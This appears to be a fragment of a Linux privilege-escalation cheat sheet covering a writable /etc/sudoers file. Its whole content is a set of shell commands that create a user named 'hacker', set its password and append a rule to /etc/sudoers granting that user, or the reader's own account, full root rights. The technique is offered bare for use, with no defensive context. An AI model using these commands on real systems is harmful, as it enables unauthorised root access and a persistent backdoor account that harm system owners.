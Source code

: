 - - -
### Writable /etc/sudoers :

```sh
useradd hacker
```

```sh
passwd hacker
```

```sh
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

**OR**

```sh
echo "[your user] ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

- - -

